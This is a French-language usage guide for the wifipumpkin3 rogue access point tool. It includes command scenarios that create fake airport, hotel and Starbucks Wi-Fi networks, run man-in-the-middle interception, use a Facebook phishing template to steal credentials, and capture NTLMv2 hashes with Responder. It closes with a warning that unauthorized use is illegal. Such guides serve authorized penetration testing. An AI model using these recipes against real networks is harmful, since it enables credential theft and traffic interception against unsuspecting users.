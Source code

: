# 🍃 WIFIPUMPKIN3 - GUIDE COMPLET

## 🎯 DESCRIPTION
`wifipumpkin3` est un framework puissant pour créer de faux points d'accès (Rogue AP) à des fins de tests d'intrusion. Il permet de monter des attaques de type Man-in-the-Middle (MitM), de capturer du trafic, de lancer des attaques de phishing, etc.

## 🚀 LANCEMENT
L'outil s'exécute en ligne de commande avec une console interactive.
```bash
# Lancement standard
sudo wifipumpkin3

# Lancement de l'interface graphique (Pulp)
sudo wifipumpkin3 --xpulp
```

## 📋 COMMANDES PRINCIPALES DE LA CONSOLE
- `ap`: Affiche les options du point d'accès.
- `set <OPTION> <VALEUR>`: Configure une option (ex: `set ssid "Free WiFi"`).
- `start`: Démarre le point d'accès.
- `stop`: Arrête le point d'accès.
- `plugins`: Liste les plugins disponibles.
- `use <PLUGIN>`: Active un plugin (ex: `use phishing`).
- `clients`: Affiche les clients connectés.
- `logs`: Affiche les logs.

## 🌐 CONFIGURATION DU POINT D'ACCÈS (AP)
```bash
# Définir le nom du réseau Wi-Fi
set ssid "NomDuReseau"

# Définir le canal Wi-Fi (1-13)
set channel 6

# Définir l'interface réseau à utiliser
set interface wlan0
```

## 🎣 PLUGINS DE CAPTURE
Les plugins sont le cœur des attaques de `wifipumpkin3`.
- `use phishing`: Active le module de phishing.
  - `set template facebook`: Sélectionne un template de page de phishing.
- `use captiveportal`: Met en place un portail captif.
- `use responder`: Lance Responder pour capturer des hashes NTLMv2.
- `use keylogger`: Tente d'enregistrer les frappes clavier.

## 🎯 SCÉNARIOS D'USAGE

### 1. Créer un Faux Point d'Accès Ouvert
```bash
> set ssid "WiFi-Gratuit-Aeroport"
> set interface wlan0
> start
```
*Les clients qui se connectent verront leur trafic passer par votre machine.*

### 2. Attaque par Portail Captif
Force les utilisateurs à passer par une page (ex: fausse page d'acceptation des conditions) avant d'accéder à internet.
```bash
> set ssid "Hotel-WiFi-Guest"
> use captiveportal
> start
```

### 3. Attaque de Phishing
Crée un faux point d'accès et redirige les utilisateurs vers une fausse page de connexion pour voler leurs identifiants.
```bash
> set ssid "Starbucks_Free_WiFi"
> use phishing
> set template facebook
> start
```
*Quand un utilisateur essaiera de se connecter à Facebook, il sera redirigé vers votre fausse page.*

## 🔧 DÉPANNAGE
- **Interface "busy"**: `sudo airmon-ng check kill` peut aider à libérer l'interface Wi-Fi.
- **Problèmes de droits**: Assurez-vous de toujours lancer l'outil avec `sudo`.
- **Réinitialiser la configuration**: Supprimez `~/.config/wifipumpkin3/config/app/config.ini` et relancez l'outil.

---
> ⚠️ **LÉGALITÉ ET ÉTHIQUE**
> La création de faux points d'accès et l'interception de trafic sans autorisation sont illégales. N'utilisez cet outil que dans un cadre légal, sur votre propre matériel, ou avec une autorisation écrite explicite.
